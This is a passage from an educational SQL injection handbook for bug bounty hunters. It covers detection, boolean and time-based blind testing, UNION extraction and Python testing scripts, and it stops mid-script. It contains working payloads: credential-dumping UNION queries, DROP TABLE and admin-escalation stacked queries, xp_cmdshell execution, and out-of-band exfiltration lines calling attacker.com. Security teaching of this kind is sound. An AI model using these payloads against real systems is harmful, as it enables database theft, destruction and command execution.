

# SQL Injection Handbook
## A Complete Bug Bounty Hunter's Guide to SQLi Mastery

<div align="center">

[](LICENSE)
[](CONTRIBUTING.md)
[](https://github.com/yourusername/sqli-guide)
[](https://github.com/yourusername/sqli-guide)

*From Zero to Hero: Master SQL Injection for Ethical Bug Bounty Hunting*

[Quick Start](#-quick-start) • [Contributing](#-contributing)

</div>

---

## 📋 Table of Contents

### 🎓 Fundamentals
1. [Introduction & Prerequisites](#-chapter-1-introduction--prerequisites)
2. [SQL Injection Explained](#-chapter-2-sql-injection-explained)
3. [How SQL Injection Works](#-chapter-3-how-sql-injection-works)

### 🔍 Identification & Detection
4. [Finding SQL Injection Vulnerabilities](#-chapter-4-finding-sql-injection-vulnerabilities)
5. [Manual Detection Techniques](#-chapter-5-manual-detection-techniques)
6. [Database Fingerprinting](#-chapter-6-database-fingerprinting)

### ⚔️ Exploitation Techniques
7. [Error-Based SQL Injection](#-chapter-7-error-based-sql-injection)
8. [UNION-Based SQL Injection](#-chapter-8-union-based-sql-injection)
9. [Blind SQL Injection](#-chapter-9-blind-sql-injection)
10. [Advanced Exploitation](#-chapter-10-advanced-exploitation)

### 🗄️ Database-Specific Attacks
11. [MySQL/MariaDB Exploitation](#-chapter-11-mysqlmariadb-exploitation)
12. [PostgreSQL Exploitation](#-chapter-12-postgresql-exploitation)
13. [Microsoft SQL Server](#-chapter-13-microsoft-sql-server)
14. [Oracle Database](#-chapter-14-oracle-database)
15. [NoSQL Injection](#-chapter-15-nosql-injection)

### 🛡️ Advanced Topics
16. [WAF Bypass Techniques](#-chapter-16-waf-bypass-techniques)
17. [Authentication Bypass](#-chapter-17-authentication-bypass)
18. [Second-Order SQL Injection](#-chapter-18-second-order-sql-injection)
19. [Out-of-Band Exploitation](#-chapter-19-out-of-band-exploitation)

### 💼 Bug Bounty Mastery
20. [Bug Bounty Methodology](#-chapter-20-bug-bounty-methodology)
21. [Automation & Tools](#-chapter-21-automation--tools)
22. [Writing Winning Reports](#-chapter-22-writing-winning-reports)
23. [Real-World Case Studies](#-chapter-23-real-world-case-studies)

### 🔐 Defense & Prevention
24. [Secure Coding Practices](#-chapter-24-secure-coding-practices)
25. [Testing & Remediation](#-chapter-25-testing--remediation)

### 📚 Resources
26. [Practice Labs & CTFs](#-practice-labs)
27. [Tools & Scripts](#-tools--scripts)
28. [Cheat Sheets](#-cheat-sheets)
29. [Further Reading](#-further-reading)

---

## 🚀 Quick Start

### For Intermediate Hunters
Jump to: [Advanced Exploitation](#-chapter-10-advanced-exploitation) | [Database-Specific](#-chapter-11-mysqlmariadb-exploitation) | [WAF Bypass](#-chapter-16-waf-bypass-techniques)

### For Report Writers
Go to: [Writing Winning Reports](#-chapter-22-writing-winning-reports) | [Case Studies](#-chapter-23-real-world-case-studies)

---

## 🎓 Chapter 1: Introduction & Prerequisites

### What You'll Learn

By the end of this guide, you will be able to:
- ✅ Identify SQL injection vulnerabilities across different contexts
- ✅ Exploit SQLi in all major database systems
- ✅ Bypass modern security controls (WAFs, filters)
- ✅ Write professional bug bounty reports
- ✅ Automate SQLi discovery and exploitation
- ✅ Understand remediation and secure coding

### Prerequisites

#### Required Knowledge
```
✓ Basic understanding of:
  - HTTP/HTTPS protocols
  - How web applications work
  - Basic SQL queries (SELECT, INSERT, UPDATE)
  - Command line usage

✗ You DON'T need:
  - Advanced programming skills
  - Prior pentesting experience
  - Expensive tools
```

#### Required Setup
```bash
# Operating System
- Kali Linux (recommended)
- ParrotOS
- macOS/Windows with WSL2

# Tools (installation covered in Chapter 21)
- Burp Suite Community Edition
- SQLMap
- Web browser with dev tools
- Python 3.x
- Docker (for labs)
```

### Learning Path



### Time Investment

| Learning Path | Duration | Outcome |
|--------------|----------|---------|
| **Speed Run** | 2-3 days | Basic understanding, can find simple SQLi |
| **Standard** | 2 weeks | Comfortable with most techniques, ready for bug bounty |
| **Mastery** | 2-3 months | Expert level, can handle complex scenarios |

---

## 💡 Chapter 2: SQL Injection Explained

### What is SQL Injection?

**Simple Definition:**  
SQL Injection is a security vulnerability that allows attackers to interfere with database queries by injecting malicious SQL code through user input.

### Real-World Analogy

Imagine a library with an automated system:

**Normal Request:**
```
"Show me all books by author: Shakespeare"
→ Library shows Shakespeare's books
```

**SQL Injection:**
```
"Show me all books by author: Shakespeare OR show me ALL books including restricted ones"
→ Library shows EVERYTHING including restricted books
```

### Why It Matters

#### Impact Statistics
```
💰 Average data breach cost: $4.35M (IBM, 2023)
🎯 #1 Web Application Risk (OWASP 2021)
📊 65% of organizations affected annually
💵 Average bug bounty: $500 - $50,000+
```

#### Real Consequences

**For Organizations:**
- Data breaches (customer info, credit cards, passwords)
- Financial losses (fines, lawsuits, reputation damage)
- Compliance violations (GDPR, PCI-DSS)
- System downtime
- Legal liability

**For You (Ethical Hacker):**
- 💰 Lucrative bug bounties
- 🏆 Recognition in security community
- 📈 Career advancement
- 🎯 High-impact findings

### How Common is SQLi?

```python
# Statistics from bug bounty platforms

HackerOne:
  Reports: 50,000+ SQLi submissions
  Average Bounty: $1,000 - $5,000
  Highest Paid: $50,000+

Bugcrowd:
  SQLi Findings: 25,000+ annually
  Critical SQLi: $5,000+

Real Examples:
  - Yahoo (2012): $10,000
  - Uber (2017): $5,000
  - LinkedIn (2019): $7,500
  - Starbucks (2020): $4,000
```

### The Vulnerability Lifecycle

```
1. Developer writes insecure code
   ↓
2. Application goes to production
   ↓
3. Hacker discovers SQLi (you!)
   ↓
4. Report submitted to bug bounty
   ↓
5. Vendor patches vulnerability
   ↓
6. Bounty paid 💰
   ↓
7. CVE published (fame!)
```

---

## 🔧 Chapter 3: How SQL Injection Works

### The Basics of SQL

Before understanding SQLi, you need basic SQL:

#### Essential SQL Commands

```sql
-- Retrieving data
SELECT username, email FROM users WHERE id = 1;

-- Adding data
INSERT INTO users (username, email) VALUES ('john', 'john@example.com');

-- Modifying data
UPDATE users SET email = 'new@example.com' WHERE username = 'john';

-- Deleting data
DELETE FROM users WHERE id = 1;

-- Filtering results
SELECT * FROM products WHERE category = 'electronics' AND price < 1000;
```

#### SQL Query Structure

```sql
SELECT [columns]        -- What to retrieve
FROM [table]           -- From which table
WHERE [condition]      -- Filter criteria
ORDER BY [column]      -- Sort results
LIMIT [number]         -- Limit results
```

### How Web Applications Use SQL

#### Normal Application Flow

```
User → Web Application → Database
```

**Example Scenario: Product Search**

1. **User Input:**
   ```
   Search Box: "laptop"
   ```

2. **Application Code (PHP):**
   ```php
   $search = $_GET['search'];
   $query = "SELECT * FROM products WHERE name = '$search'";
   $result = mysqli_query($conn, $query);
   ```

3. **SQL Query Executed:**
   ```sql
   SELECT * FROM products WHERE name = 'laptop'
   ```

4. **Database Returns:**
   ```
   [Laptop 1, Laptop 2, Laptop 3...]
   ```

#### The Vulnerable Pattern

```php
// ❌ VULNERABLE CODE - DO NOT USE
$user_input = $_GET['id'];
$query = "SELECT * FROM users WHERE id = " . $user_input;
mysqli_query($conn, $query);
```

**Why is this vulnerable?**
- User input is **directly concatenated** into SQL query
- No validation or sanitization
- No escaping of special characters

### The Attack Mechanism

#### Step-by-Step SQLi Attack

**Step 1: Normal Request**
```
URL: http://shop.com/product.php?id=5

Query: SELECT * FROM products WHERE id = 5

Result: Shows product with ID 5
```

**Step 2: Testing for Vulnerability**
```
URL: http://shop.com/product.php?id=5'

Query: SELECT * FROM products WHERE id = 5'

Result: SQL ERROR! (Vulnerable!)
```

**Step 3: Exploiting the Vulnerability**
```
URL: http://shop.com/product.php?id=5 UNION SELECT username,password FROM users--

Query: SELECT * FROM products WHERE id = 5 
       UNION 
       SELECT username,password FROM users--

Result: Product info + ALL USER CREDENTIALS!
```

### Visual Representation

```
┌─────────────────────────────────────────────────────────────┐
│                    NORMAL FLOW                              │
├─────────────────────────────────────────────────────────────┤
│                                                             │
│  User Input: "5"                                           │
│       ↓                                                     │
│  Application builds query:                                  │
│       SELECT * FROM products WHERE id = 5                   │
│       ↓                                                     │
│  Database executes query                                    │
│       ↓                                                     │
│  Returns: Product #5 info                                  │
│                                                             │
└─────────────────────────────────────────────────────────────┘

┌─────────────────────────────────────────────────────────────┐
│                   ATTACK FLOW                               │
├─────────────────────────────────────────────────────────────┤
│                                                             │
│  User Input: "5 UNION SELECT username,password FROM users" │
│       ↓                                                     │
│  Application blindly builds query:                          │
│       SELECT * FROM products WHERE id = 5                   │
│       UNION SELECT username,password FROM users             │
│       ↓                                                     │
│  Database executes BOTH queries                            │
│       ↓                                                     │
│  Returns: Product #5 + ALL PASSWORDS! 💀                   │
│                                                             │
└─────────────────────────────────────────────────────────────┘
```

### The Core Problem: Trust

```python
# The fundamental issue
┌──────────────────────────────────────────┐
│ Application TRUSTS user input           │
│          ↓                               │
│ Treats input as DATA                     │
│          ↓                               │
│ But attacker sends CODE                  │
│          ↓                               │
│ Database executes attacker's CODE        │
│          ↓                               │
│ GAME OVER 💀                            │
└──────────────────────────────────────────┘
```

### Common Vulnerable Code Patterns

#### Pattern 1: String Concatenation
```php
// ❌ PHP
$query = "SELECT * FROM users WHERE username = '" . $_POST['user'] . "'";

// ❌ Python
query = f"SELECT * FROM users WHERE username = '{user_input}'"

// ❌ Node.js
const query = `SELECT * FROM users WHERE username = '${req.body.username}'`;

// ❌ Java
String query = "SELECT * FROM users WHERE username = '" + username + "'";
```

#### Pattern 2: Dynamic Queries
```php
// ❌ Building queries with user input
$order = $_GET['sort'];  // User sends: "name; DROP TABLE users--"
$query = "SELECT * FROM products ORDER BY " . $order;
```

#### Pattern 3: Stored Procedures (if misused)
```sql
-- ❌ Vulnerable stored procedure
CREATE PROCEDURE getUserData(@username VARCHAR(50))
AS
BEGIN
    EXEC('SELECT * FROM users WHERE username = ''' + @username + '''')
END
```

---

## 🔍 Chapter 4: Finding SQL Injection Vulnerabilities

### Where to Look: The Attack Surface

#### Input Vectors (Priority Ordered)

```
🎯 HIGH PRIORITY (80% of findings)
├── URL Parameters (?id=1, ?search=keyword)
├── POST Data (login forms, search forms)
├── HTTP Headers (User-Agent, Referer, X-Forwarded-For)
└── Cookies (session IDs, user tracking)

🎯 MEDIUM PRIORITY (15% of findings)
├── JSON/XML API inputs
├── File upload parameters
├── Hidden form fields
└── WebSocket messages

🎯 LOW PRIORITY (5% of findings)
├── Mobile app API endpoints
├── SOAP requests
├── GraphQL queries
└── Custom protocols
```

### The SQLi Hunter's Methodology

#### Phase 1: Reconnaissance (15 minutes)

```bash
# 1. Map the application
gospider -s https://target.com -o output -c 10 -d 3

# 2. Find all parameters
paramspider -d target.com -o params.txt

# 3. Identify interesting endpoints
cat params.txt | grep -E '\?id=|\?page=|\?search=|\?user=' > potential_sqli.txt

# 4. Check for login pages
gospider -s https://target.com -o output | grep -i 'login\|signin\|admin'
```

#### Phase 2: Manual Testing (30 minutes)

**Test Priority Matrix:**

| Priority | Feature | Why |
|----------|---------|-----|
| 🔴 **Critical** | Login forms | Auth bypass = critical impact |
| 🔴 **Critical** | Search functionality | Complex queries, often unfiltered |
| 🟡 **High** | Product filtering | Multiple parameters, sorting |
| 🟡 **High** | Report generation | Often uses raw SQL |
| 🟢 **Medium** | Profile updates | Second-order SQLi potential |
| 🟢 **Medium** | API endpoints | Less tested than web UI |

#### Phase 3: Systematic Testing (1-2 hours)

```
For each input point:
  ├── 1. Baseline Request (normal value)
  ├── 2. Single Quote Test (')
  ├── 3. Double Quote Test (")
  ├── 4. Comment Sequence (-- , #, /**/)
  ├── 5. Boolean Logic (AND, OR)
  ├── 6. Time Delay (SLEEP, WAITFOR)
  ├── 7. UNION Test (if reflective)
  └── 8. Error Analysis
```

### Detailed Testing Procedures

#### Test 1: The Single Quote Test 🏆

**Purpose:** Detect syntax errors indicating SQLi

```http
# Original request
GET /product.php?id=5 HTTP/1.1
Host: target.com

# Test request
GET /product.php?id=5' HTTP/1.1
Host: target.com
```

**What to look for:**

✅ **Vulnerable Indicators:**
```
- SQL syntax errors in response
- Different page content/length
- 500 Internal Server Error
- Blank page
- Different HTTP response code
```

❌ **Not Vulnerable Indicators:**
```
- Exactly same response as original
- WAF block message
- Generic error page
```

**Real Examples:**

```
🔴 VULNERABLE:
Response: "You have an error in your SQL syntax near ''' at line 1"
→ MySQL error exposed!

🔴 VULNERABLE:
Original page: 15,432 bytes
With quote: 8,234 bytes
→ Different content = likely vulnerable

🟢 NOT VULNERABLE:
Response: "Invalid parameter"
→ Input filtered/sanitized
```

#### Test 2: Boolean Logic Test

**Purpose:** Detect blind SQL injection

```http
# Test TRUE condition
GET /product.php?id=5 AND 1=1 HTTP/1.1

# Test FALSE condition
GET /product.php?id=5 AND 1=2 HTTP/1.1
```

**Analysis:**

```python
Response to TRUE:  Page loads normally (Product shown)
Response to FALSE: Different response (Product not shown / error)

Conclusion: Boolean-based blind SQLi exists!
```

**Detailed Example:**

```
Original Request:
  GET /product.php?id=5
  Response: <Product 5 details> (Length: 4,523 bytes)

TRUE Injection:
  GET /product.php?id=5 AND 1=1
  Response: <Product 5 details> (Length: 4,523 bytes)
  ✓ Same as original

FALSE Injection:
  GET /product.php?id=5 AND 1=2
  Response: <No product found> (Length: 1,234 bytes)
  ✗ Different from original

CONCLUSION: Vulnerable to Boolean-based SQLi!
```

#### Test 3: Time-Based Detection

**Purpose:** Detect blind SQLi when no visible changes occur

```sql
# MySQL
?id=5' AND SLEEP(5)--

# MSSQL
?id=5'; WAITFOR DELAY '00:00:05'--

# PostgreSQL
?id=5'; SELECT pg_sleep(5)--

# Oracle
?id=5' AND DBMS_LOCK.SLEEP(5)--
```

**Timing Analysis:**

```python
import requests
import time

url = "http://target.com/page.php"

# Baseline (no injection)
start = time.time()
requests.get(url + "?id=5")
baseline = time.time() - start
print(f"Baseline: {baseline:.2f}s")

# With time delay injection
start = time.time()
requests.get(url + "?id=5' AND SLEEP(5)--")
injected = time.time() - start
print(f"With injection: {injected:.2f}s")

if injected >= baseline + 4.5:  # 5 seconds ± tolerance
    print("🔴 VULNERABLE to time-based SQLi!")
```

#### Test 4: Error-Based Detection

**Purpose:** Extract information through error messages

```sql
# MySQL
?id=5' AND extractvalue(1,concat(0x7e,version()))--
?id=5' AND updatexml(null,concat(0x0a,version()),null)--

# MSSQL
?id=5' AND 1=CONVERT(int,@@version)--

# Oracle
?id=5' AND 1=CTXSYS.DRITHSX.SN(1,(SELECT user FROM dual))--

# PostgreSQL
?id=5' AND 1=CAST(version() AS int)--
```

**What you'll see:**

```
MySQL:
  XPATH syntax error: '~5.7.33-0ubuntu0.16.04.1'
  → Version revealed!

MSSQL:
  Conversion failed when converting "Microsoft SQL Server 2019..."
  → Database identified!

Oracle:
  ORA-29532: Java call terminated with error: SCOTT
  → Username revealed!
```

#### Test 5: UNION-Based Detection

**Purpose:** Combine results from multiple queries

```sql
# Step 1: Find number of columns
?id=5' ORDER BY 1--    ✓ Success
?id=5' ORDER BY 2--    ✓ Success
?id=5' ORDER BY 3--    ✓ Success
?id=5' ORDER BY 4--    ✗ Error → 3 columns!

# Step 2: Test UNION
?id=5' UNION SELECT NULL,NULL,NULL--

# Step 3: Find injectable columns
?id=5' UNION SELECT 'a','b','c'--

# Step 4: Extract data
?id=5' UNION SELECT username,password,email FROM users--
```

### Complete Testing Checklist

```markdown
## URL Parameter Testing

- [ ] Test each parameter individually
  - [ ] ?id=5'
  - [ ] ?id=5"
  - [ ] ?id=5`
  - [ ] ?id=5)
  - [ ] ?id=5'))
  
- [ ] Boolean tests
  - [ ] ?id=5 AND 1=1
  - [ ] ?id=5 AND 1=2
  - [ ] ?id=5' AND '1'='1
  - [ ] ?id=5' AND '1'='2
  
- [ ] Time-based tests
  - [ ] ?id=5' AND SLEEP(5)--
  - [ ] ?id=5'; WAITFOR DELAY '00:00:05'--
  
- [ ] Comment syntax
  - [ ] ?id=5'--
  - [ ] ?id=5'#
  - [ ] ?id=5'/*
  
- [ ] UNION tests
  - [ ] Determine column count
  - [ ] Identify injectable columns
  - [ ] Extract database info

## POST Data Testing

- [ ] Login forms
  - [ ] username: admin'--
  - [ ] password: ' OR '1'='1
  
- [ ] Search forms
  - [ ] search: test' UNION SELECT...
  
- [ ] Registration forms
  - [ ] email: test@test.com' OR '1'='1
  
## HTTP Header Testing

- [ ] User-Agent: Mozilla/5.0' OR '1'='1
- [ ] Referer: http://evil.com' UNION SELECT...
- [ ] X-Forwarded-For: 127.0.0.1' AND SLEEP(5)--
- [ ] Cookie: session=abc123' OR '1'='1

## JSON/API Testing

- [ ] {"id": "5'"}
- [ ] {"id": "5' UNION SELECT..."}
- [ ] {"search": "test' AND SLEEP(5)--"}
```

### Vulnerability Indicators Reference

#### Strong Indicators (High Confidence)

```
✅ SQL error messages
  - "You have an error in your SQL syntax"
  - "Unclosed quotation mark"
  - "ORA-01756"
  
✅ Different response with boolean logic
  - AND 1=1 → Normal page
  - AND 1=2 → Different/error
  
✅ Time delays work predictably
  - SLEEP(5) causes 5-second delay
  
✅ UNION SELECT returns data
  - Database info visible in response
```

#### Weak Indicators (Needs Verification)

```
⚠️ Different response length
  - Could be WAF, could be SQLi
  
⚠️ Generic error messages
  - "Error occurred"
  - "Invalid input"
  
⚠️ Blocked requests
  - WAF might indicate vulnerable backend
```

#### False Positives (Not SQLi)

```
❌ Input sanitization working
  - Quote escaped to \' or ''
  
❌ WAF blocking
  - "Request blocked for security"
  
❌ Input length limits
  - Payload truncated
  
❌ API rate limiting
  - Too many requests blocked
```

---

## 🎯 Chapter 5: Manual Detection Techniques

### The Art of Manual Testing

**Why manual testing matters:**
- 🎯 Finds complex, context-specific SQLi
- 🚀 Bypasses WAFs that block automated tools
- 🏆 Higher quality findings
- 💰 Better bug bounty payouts

### Advanced Detection Methodology

#### Technique 1: Incremental Payload Testing

**Philosophy:** Start simple, increase complexity

```sql
Level 1: Character Injection
  ' → Check for error
  " → Check for error
  ` → Check for error (MySQL)
  ) → Check for error
  )) → Check for error

Level 2: Logic Manipulation
  ' OR '1'='1 → True condition
  ' OR '1'='2 → False condition
  ' AND '1'='1 → True condition
  ' AND '1'='2 → False condition

Level 3: Comment Injection
  '--  → SQL comment
  '#   → MySQL comment
  /*   → Multi-line comment
  ;%00 → Null byte

Level 4: Function Injection
  ' OR SLEEP(5)-- → Time delay
  ' OR LENGTH(database())>0-- → Boolean logic
  ' UNION SELECT NULL-- → Data extraction

Level 5: Advanced Bypass
  ' OR 1=1%00 → Null byte bypass
  ' /*!OR*/ 1=1-- → MySQL comment bypass
  ' OR/**/'1'='1 → Comment obfuscation
```

#### Technique 2: Response Analysis Patterns

**Pattern 1: Content Comparison**

```python
import requests
from difflib import SequenceMatcher

def compare_responses(url, payload1, payload2):
    """Compare two responses for SQLi detection"""
    
    resp1 = requests.get(f"{url}{payload1}")
    resp2 = requests.get(f"{url}{payload2}")
    
    # Length comparison
    len_diff = abs(len(resp1.text) - len(resp2.text))
    print(f"Length difference: {len_diff} bytes")
    
    # Content similarity
    similarity = SequenceMatcher(None, resp1.text, resp2.text).ratio()
    print(f"Content similarity: {similarity:.2%}")
    
    # Response time comparison
    time_diff = abs(resp1.elapsed.total_seconds() - resp2.elapsed.total_seconds())
    print(f"Time difference: {time_diff:.2f}s")
    
    # Verdict
    if len_diff > 100 or similarity < 0.95:
        print("🔴 Likely vulnerable!")
    else:
        print("🟢 Probably not vulnerable")

# Usage
url = "http://target.com/page.php?id="
compare_responses(url, "5", "5' AND '1'='1")
```

**Pattern 2: Error Message Analysis**

```python
import re

ERROR_PATTERNS = {
    'MySQL': [
        r"You have an error in your SQL syntax",
        r"Warning: mysql_fetch",
        r"MySQL Query fail",
        r"SQL syntax.*MySQL",
        r"Warning.*mysqli?_",
    ],
    'MSSQL': [
        r"Driver.* SQL[\-\_\ ]*Server",
        r"OLE DB.* SQL Server",
        r"Unclosed quotation mark after the character string",
        r"Microsoft SQL Native Client error",
    ],
    'PostgreSQL': [
        r"PostgreSQL.*ERROR",
        r"Warning.*\Wpg_",
        r"valid PostgreSQL result",
        r"Npgsql\.",
    ],
    'Oracle': [
        r"ORA-[0-9][0-9][0-9][0-9]",
        r"Oracle error",
        r"Oracle.*Driver",
        r"Warning.*\Woci_",
    ]
}

def detect_database(response_text):
    """Identify database from error messages"""
    for db_type, patterns in ERROR_PATTERNS.items():
        for pattern in patterns:
            if re.search(pattern, response_text, re.IGNORECASE):
                return db_type
    return "Unknown"

# Usage
response = requests.get("http://target.com/page.php?id=5'")
db = detect_database(response.text)
print(f"Database detected: {db}")
```

#### Technique 3: Burp Suite Manual Testing

**Setup Repeater Workflow:**

```
1. Capture request in Proxy
   ↓
2. Send to Repeater (Ctrl+R)
   ↓
3. Create tabs for different payloads
   ├── Baseline (normal request)
   ├── Single quote test
   ├── Boolean true
   ├── Boolean false
   ├── Time delay
   └── UNION test
   ↓
4. Compare responses side-by-side
   ↓
5. Document findings
```

**Burp Intruder Patterns:**

```
Position markers: §5§

Payload sets:
┌─────────────────────────────────────┐
│ Set 1: Basic SQLi                   │
├─────────────────────────────────────┤
│ '                                   │
│ "                                   │
│ `                                   │
│ ')                                  │
│ ")                                  │
│ `)                                  │
│ '))                                 │
│ "))                                 │
└─────────────────────────────────────┘

┌─────────────────────────────────────┐
│ Set 2: Boolean Logic                │
├─────────────────────────────────────┤
│ ' OR '1'='1                        │
│ ' OR '1'='2                        │
│ ' AND '1'='1                       │
│ ' AND '1'='2                       │
│ 1 OR 1=1                            │
│ 1 AND 1=2                           │
└─────────────────────────────────────┘

┌─────────────────────────────────────┐
│ Set 3: Time-Based                   │
├─────────────────────────────────────┤
│ ' AND SLEEP(5)--                   │
│ '; WAITFOR DELAY '00:00:05'--      │
│ ' AND pg_sleep(5)--                │
│ ' AND DBMS_LOCK.SLEEP(5)--         │
└─────────────────────────────────────┘
```

**Analyzing Intruder Results:**

```
Sort by:
  ├── Response length (look for outliers)
  ├── Status code (500 errors = SQL errors)
  ├── Response time (time-based detection)
  └── Grep patterns (error messages)

Filters:
  ├── Show only status 500
  ├── Show only length > X bytes
  ├── Show only time > 5 seconds
  └── Show only containing "error"
```

#### Technique 4: Context-Aware Testing

**Different contexts require different payloads:**

##### Numeric Context
```sql
Original: SELECT * FROM users WHERE id = 5

Tests:
  5 OR 1=1
  5 AND 1=2
  5 UNION SELECT NULL,NULL
  5; DROP TABLE users--
  5+(SELECT 1 FROM DUAL)
```

##### String Context (Single Quote)
```sql
Original: SELECT * FROM users WHERE name = 'admin'

Tests:
  admin' OR '1'='1
  admin' AND '1'='2
  admin' UNION SELECT NULL,NULL--
  admin' AND SLEEP(5)--
  admin'||'test
```

##### String Context (Double Quote)
```sql
Original: SELECT * FROM users WHERE name = "admin"

Tests:
  admin" OR "1"="1
  admin" AND "1"="2
  admin" UNION SELECT NULL,NULL--
  admin" AND SLEEP(5)--
```

##### LIKE Context
```sql
Original: SELECT * FROM products WHERE name LIKE '%search%'

Tests:
  test%' OR '1'='1
  test%' AND SLEEP(5) AND '1'='1
  test%' UNION SELECT NULL,NULL--
  test%' OR username LIKE '%admin%
```

##### ORDER BY Context
```sql
Original: SELECT * FROM products ORDER BY price

Tests:
  price; DROP TABLE products--
  (SELECT CASE WHEN (1=1) THEN price ELSE NULL END)
  price,(SELECT SLEEP(5))
  IF(1=1,price,NULL)
```

##### LIMIT Context
```sql
Original: SELECT * FROM users LIMIT 10

Tests:
  10; DROP TABLE users--
  10 UNION SELECT NULL--
  10 OR SLEEP(5)
```

### Advanced Payload Crafting

#### Technique 5: Stacked Queries

**What are stacked queries?**  
Executing multiple SQL statements in one injection

```sql
# Basic stacked query
'; SELECT SLEEP(5)--
'; INSERT INTO users VALUES('hacker','password')--
'; UPDATE users SET role='admin' WHERE username='attacker'--

# Database-specific:

MySQL/MariaDB:
  '; SELECT IF(version() LIKE '5%', SLEEP(5), 0)--

MSSQL:
  '; IF (1=1) WAITFOR DELAY '00:00:05'--
  '; EXEC xp_cmdshell('whoami')--

PostgreSQL:
  '; SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE 0 END--
  '; COPY users TO '/tmp/users.txt'--

Oracle:
  '; BEGIN DBMS_LOCK.SLEEP(5); END;--
```

**Detection method:**

```python
import requests
import time

def test_stacked_queries(url, param):
    """Test for stacked query support"""
    
    payloads = [
        f"{param}; SELECT SLEEP(5)--",
        f"{param}'; SELECT SLEEP(5)--",
        f"{param}; WAITFOR DELAY '00:00:05'--",
    ]
    
    for payload in payloads:
        start = time.time()
        resp = requests.get(f"{url}?id={payload}")
        elapsed = time.time() - start
        
        if elapsed >= 5:
            print(f"🔴 Stacked queries possible!")
            print(f"   Payload: {payload}")
            print(f"   Delay: {elapsed:.2f}s")
            return True
    
    return False
```

#### Technique 6: Out-of-Band Detection

**When to use:** Blind SQLi with no time delays possible

```sql
# DNS Exfiltration

MySQL (requires load_file):
  ' UNION SELECT LOAD_FILE(CONCAT('\\\\',(SELECT version()),'.attacker.com\\a'))--

MSSQL:
  '; EXEC master..xp_dirtree '\\attacker.com\'+@@version--
  '; EXEC master..xp_fileexist '\\attacker.com\test.txt'--

Oracle:
  ' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT user FROM dual)||
    '.attacker.com/"> %remote;]>'),'/l') FROM dual--

PostgreSQL:
  '; COPY (SELECT '') TO PROGRAM 'nslookup $(whoami).attacker.com'--
```

**Setting up listener:**

```bash
# DNS listener
sudo python -m dnslib.server --port 53 --log-requests

# HTTP listener  
nc -lvnp 80

# Or use Burp Collaborator:
# 1. Go to Burp > Burp Collaborator client
# 2. Copy collaborator payload: abc123.burpcollaborator.net
# 3. Use in injection: '; EXEC master..xp_dirtree '\\abc123.burpcollaborator.net\test'--
# 4. Poll for interactions
```

### Complete Manual Testing Script

```python
#!/usr/bin/env python3
"""
Manual SQLi Testing Assistant
Usage: python sqli_test.py -u http://target.com/page.php?id=1
"""

import requests
import time
import argparse
from urllib.parse import urlparse, parse_qs, urlencode, urlunparse
from colorama import Fore, init

init(autoreset=True)

class SQLiTester:
    def __init__(self, url):
        self.url = url
        self.parsed = urlparse(url)
        self.params = parse_qs(self.parsed.query)
        
    def test_param(self, param_name, payload):
        """Test a specific parameter with payload"""
        params = self.params.copy()
        params[param_name] = [payload]
        
        new_query = urlencode(params, doseq=True)
        new_url = urlunparse((
            self.parsed.scheme,
            self.parsed.netloc,
            self.parsed.path,
            self.parsed.params,
            new_query,
            self.parsed.fragment
        ))
        
        try:
            start = time.time()
            resp = requests.get(new_url, timeout=10)
            elapsed = time.time() - start
            
            return {
                'url': new_url,
                'status': resp.status_code,
                'length': len(resp.text),
                'time': elapsed,
                'text': resp.text
            }
        except Exception as e:
            return {'error': str(e)}
    
    def run_tests(self):
        """Run comprehensive SQLi tests"""
        print(f"{Fore.CYAN}[*] Testing URL: {self.url}\n")
        
        for param in self.params.keys():
            print(f"{Fore.YELLOW}[*] Testing parameter: {param}")
            
            # Get baseline
            baseline = self.test_param(param, self.params[param][0])
            print(f"  Baseline: {baseline['status']} | {baseline['length']} bytes | {baseline['time']:.2f}s")
            
            # Test 1: Single quote
            result = self.test_param(param, self.params[param][0] + "'")
            if result['status'] == 500 or 'sql' in result['text'].lower():
                print(f"  {Fore.RED}[!] VULNERABLE: Single quote caused error!")
            
            # Test 2: Boolean True
            result = self.test_param(param, self.params[param][0] + "' AND '1'='1")
            if result['length'] == baseline['length']:
                print(f"  {Fore.GREEN}[+] Boolean TRUE: Same response")
            
            # Test 3: Boolean False
